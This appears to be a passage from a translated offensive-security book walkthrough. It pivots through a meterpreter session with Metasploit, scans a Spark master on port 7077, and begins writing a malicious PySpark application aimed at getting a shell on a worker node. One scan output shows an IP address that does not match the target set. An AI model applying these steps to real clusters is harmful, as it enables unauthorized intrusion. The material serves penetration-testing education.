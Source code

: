 这三个组件中的每一个都在 Java 虚拟机（JVM）中运行一个 Spark 进程，即使是分析师的笔记本电脑（驱动器）。不过，有个关键点：*Spark 默认禁用安全性*。

我们不仅仅在谈论认证问题，这已经很糟糕了。不，*安全性整体*被禁用了，包括加密、访问控制，当然还有认证。2021 年了，各位，整理好你们的东西吧。

根据官方文档，为了与 Spark 集群进行通信，需要满足一些网络要求。首先，我们需要能够通过 7077 端口访问主节点，以便调度任务。工作节点还需要能够发起与驱动器（我们的 Jenkins 节点）之间的连接，请求执行 JAR 文件、报告结果并处理其他调度步骤。

根据 Listing 12-3 中 `SPARK_MASTER` 环境变量的存在，我们有 90% 的把握认为 Jenkins 运行了一些 Spark 任务，因此我们可以相当确信所有这些网络条件都已正确配置。但为了确保安全起见，首先确认我们至少能够访问 Spark 主节点。测试第二个网络要求（即工作节点能否连接到驱动器）的唯一方法是提交任务或检查安全组。

我们在 Metasploit 上添加一条路由，指向 10.0.0.0/8 范围，以便到达 Spark 主节点 IP（10.50.12.67），并通过当前的 meterpreter 会话进行通道传输：

```
meterpreter > **background**

msf exploit(multi/handler) > **route add 10.0.0.0 255.0.0.0 12**
[*]  Route added
```

接着我们使用内置的 Metasploit 扫描器来探测 7077 端口：

```
msf exploit(multi/handler) > **use auxiliary/scanner/portscan/tcp**
msf exploit(scanner/portscan/tcp) > **set RHOSTS 10.50.12.67**
msf exploit(scanner/portscan/tcp) > **set PORTS 7077**
msf exploit(scanner/portscan/tcp) > **run**

[+] 192.168.1.24:         - 192.168.1.24:7077 - TCP OPEN
[*] Scanned 1 of 1 hosts (100% complete)
```

没有惊讶的事情。我们能够与主节点通信。好吧，让我们写第一个恶意 Spark 应用吧！

### 恶意 Spark

尽管 Spark 是用 Scala 编写的，但它对 Python 程序的支持非常好。将 Python 对象转换为 Java 对象需要支付高昂的序列化成本，但我们又何妨呢？我们只需要一个运行在某个工作节点上的外壳。

Python 甚至有一个 `pip` 包，它可以下载 200MB 的 JAR 文件来快速设置一个可用的 Spark 环境：

```
$ **python -m pip install pyspark**
```

每个 Spark 应用程序都以相同的模板代码开始，该代码定义了 `SparkContext`，这是一个客户端连接器，负责与 Spark 集群进行通信。我们通过这段设置代码开始我们的应用程序（参见 Listing 12-4）。

```
from pyspark import SparkContext, SparkConf

# Set up configuration options
conf = SparkConf()
conf = conf.setAppName("Word Count")

# Add the IP of the Spark master
conf = conf.setMaster("spark://10.50.12.67:7077")

# Add the IP of the Jenkins worker we are currently on
conf = conf.set("spark.driver.host", "10.33.57.66")

# Initialize the Spark context with the necessary info to reach the master
1 sc = SparkContext(conf = conf)
```

